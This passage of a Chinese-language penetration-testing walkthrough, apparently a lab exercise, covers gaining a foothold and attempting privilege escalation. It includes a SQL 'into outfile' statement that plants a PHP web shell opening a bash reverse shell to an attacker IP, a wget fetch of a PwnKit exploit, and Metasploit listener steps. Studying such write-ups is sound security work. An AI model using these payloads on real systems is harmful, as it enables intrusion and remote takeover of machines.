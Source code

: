 使用nc进行反弹shell。  
select '<?php system("bash -c \\'bash -i >& /dev/tcp/192.168.10.128/2333 0>&1\\'"); ?>' into outfile '/tmp/view.tpl'

[![](assets/1699257095-fb0311aabb8bc2893d40528eb78df174.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103214700-76895ff0-7a4f-1.png)

# 内网渗透

## 权限提升

发现 是ubuntu16.04 版本 ，提权exp ：[https://github.com/luijait/PwnKit-Exploit](https://github.com/luijait/PwnKit-Exploit)  
使用wget进行下载。  
wget 192.168.10.128/home/kali/PwnKit-Exploit-main/exploit.c  
然后发现没有提权成功。

## msf提权

接着使用msf进行权限提升

## 设置监听

[![](assets/1699257095-7bee5bc1b0b16b5ae011f48d13b1b7e6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103214721-834ad9d0-7a4f-1.png)
